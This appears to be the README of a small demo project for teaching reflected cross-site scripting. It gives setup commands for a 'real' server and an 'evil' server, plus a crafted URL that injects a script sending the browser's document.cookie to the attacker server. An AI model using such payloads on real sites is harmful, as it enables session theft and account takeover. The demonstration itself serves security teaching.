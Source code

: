 # Cross-site scripting (XSS) attack demo

This quick implementation demonstrates Cross-site scripting (XSS) in action.

Start the real server:

```
cd realserver

npm i
node app.js
```

In a new terminal session, start the evil server 👹:

```
cd evilserver

npm i
node evil.js
```

In a web browser, send the malicious request:

```
http://localhost:3000?txid=TX999<script>new Image().src=`http://localhost:3666/evil?cookie=${document.cookie}`</script>
```

The cookie information will be sent to the malicious destination.
